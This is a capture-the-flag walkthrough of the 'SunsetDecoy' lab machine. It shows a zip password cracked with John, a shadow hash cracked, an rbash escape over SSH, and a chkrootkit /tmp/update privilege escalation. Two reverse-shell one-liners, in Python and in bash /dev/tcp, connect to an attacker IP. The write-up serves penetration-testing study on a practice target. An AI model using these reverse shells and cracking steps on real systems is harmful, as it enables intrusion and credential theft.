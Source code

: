 # SunsetDecoy

## Nmap

```
sudo nmap 192.168.184.85 -p- -sS -sV                                                                                                                                                                                             130 ⨯

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

First up checking the root page for port 80 takes us to an index page containing a file called save.zip.

![](<../../../.gitbook/assets/image (1233).png>)

Upon downloading the file we are asked for a password to open. Kali comes pre-installed with a `John` module called `zip2john`. We can use this to create a hash of the file which can be used for cracking with `John`.

```
/usr/sbin/zip2john /home/kali/Downloads/save.zip > /home/kali/Desktop/hash
```

![](<../../../.gitbook/assets/image (1234).png>)

We can then run `John` against the hash.

```
sudo john --wordlist=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt /home/kali/Desktop/hash
```

![](<../../../.gitbook/assets/image (1235).png>)

We soon get the password `manuel`. We can then extract the contents of save.zip. After doing so we extract the /etc/ folder.

![](<../../../.gitbook/assets/image (1236).png>)

Out of these files shadow is of interest the most.

![](<../../../.gitbook/assets/image (1237).png>)

We have passwords hash for the root account and the account '296640a3b825115a47b68fc44501c828'. I was unable to crack the root password with a wordlist so instead was able to crack the other account as per below:

```
sudo john --wordlist=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt /home/kali/Desktop/hash
```

![](<../../../.gitbook/assets/image (1238).png>)

We now have the password: `server` I was then able to login to `SSH` with the username and password.

![](<../../../.gitbook/assets/image (1239).png>)

When attempting to run a simple command such as cat we are given the error message: `-rbash: cat: command not found`.

To help bypass this we can exit out of SSH and reconnect with the following command:

```
ssh 296640a3b825115a47b68fc44501c828@192.168.184.85 -t "bash --noprofile"
```

Once in we have a more usable shell. We can then run a Python reverse shell to create another shell connection this should get us more usable.

```
/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.184",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

Once in the new shell export a new path so we have use of commands easily.

```
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

![](<../../../.gitbook/assets/image (1240).png>)

After enumerating the machine for a while I was unable to find points of escalation. I then transferred over [pspy64](https://github.com/DominicBreuker/pspy/releases) and let it run.

```
chmod +x pspy64
./pspy64
```

Soon after running we get a huge amount of entries for chkrootkit-0.49.

![](<../../../.gitbook/assets/image (1241) (1).png>)

Researching on Google shows a local privilege escalation exploit with this version and below:

{% embed url="https://www.exploit-db.com/exploits/33899" %}

Essentially this will execute a binary in /tmp/update. We can create update as a reverse shell and when executed should give us a root shell.

```
echo '#!/bin/bash
bash -i >& /dev/tcp/192.168.49.184/80 0>&1' > /tmp/update
```

Make it executable:

```
chmod +x /tmp/update
```

Then open a `netcat` listener to the specified port and we should land a root shell.

![](<../../../.gitbook/assets/image (1242) (1).png>)
